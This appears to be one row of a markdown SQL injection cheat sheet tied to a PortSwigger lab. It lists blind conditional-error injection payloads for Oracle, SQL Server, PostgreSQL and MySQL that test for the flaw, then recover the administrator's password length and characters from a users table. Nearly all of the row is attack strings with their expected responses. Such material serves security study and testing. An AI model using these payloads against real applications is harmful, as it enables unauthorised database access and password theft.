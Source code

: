 | Test if the app is vulnerable :<br>`z'`<br>=> Error<br>`z''`<br>=> Nothing<br>`z'\|\|(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)\|\|'`<br>=> Error<br>`z'\|\|(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)\|\|'`<br>=> Nothing<br><br>Guess length :<br>`z'\|\|(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')\|\|'`<br>=> Error (the password is greater than 1)<br>`z'\|\|(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')\|\|'`<br>=> Nothing (the password is lesser than 21)<br><br>Guess char at offset `x`:<br><br>`z'\|\|(SELECT CASE WHEN SUBSTR(password,x,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')\|\|'`<br>=> Error, the password at offset `x` contain the letter `a`. | Test if the app is vulnerable :<br>`z'`<br>=> Error<br>`z''`<br>=> Nothing<br><br>*Note : for microsoft sql, we must put nothing before the concatenation, because if an error occurs (ie. 1/0), it will try to cast the string before the query to an int. Ie, cast the letter 'z' to an int and therefore leading to a generic error.*<br><br>`'+(SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END)+'`<br>=> Error<br>`'+(SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END)+'`<br>=> Nothing<br><br>Guess length :<br>`'+(SELECT CASE WHEN (username='administrator' AND LEN(password)=10) THEN 1/0 ELSE NULL END FROM users)+'`<br>=> Error (len of the password is 10)<br><br>Guess char at offset `x`:<br><br>`'+(SELECT CASE WHEN SUBSTRING(password,x,1)='a' THEN 1/0 ELSE NULL END FROM users WHERE username='administrator')+'`<br>=> Error, the password at offset `x` contain the letter `a`. | Test if the app is vulnerable :<br>`z'`<br>=> Error<br>`z''`<br>=> Nothing<br><br>*Note : for postgresQL, we must put nothing before the concatenation, because if an error occurs (ie. 1/0), it will try to cast the string before the query to an int. Ie, cast the letter 'z' to an int and therefore leading to a generic error.*<br><br>`'\|\|(SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)\|\|'`<br>=> Error<br>`'\|\|(SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)\|\|'`<br>=> Nothing<br><br>Guess length :<br>`'\|\|(SELECT CASE WHEN LENGTH(password)=10 THEN 1/(SELECT 0) ELSE NULL END FROM users WHERE username='administrator')\|\|'`<br>=> Error (len of the password is 10)<br><br>Guess char at offset `x`:<br><br>`'\|\|(SELECT CASE WHEN SUBSTRING(password,x,1)='a' THEN 1/(SELECT 0) ELSE NULL END FROM users WHERE username='administrator')\|\|'`<br>=> Error, the password at offset `x` contain the letter `a`.                  | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`                                                                                                                                                                                                                                                                                                                                 | Conditionnal error.<br><br>1) Detect if the app is vulnerable to conditionnal error.<br>2) Guess the length of the password.<br>3) Bruteforce the password.<br>[See this Labs.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)                                                            |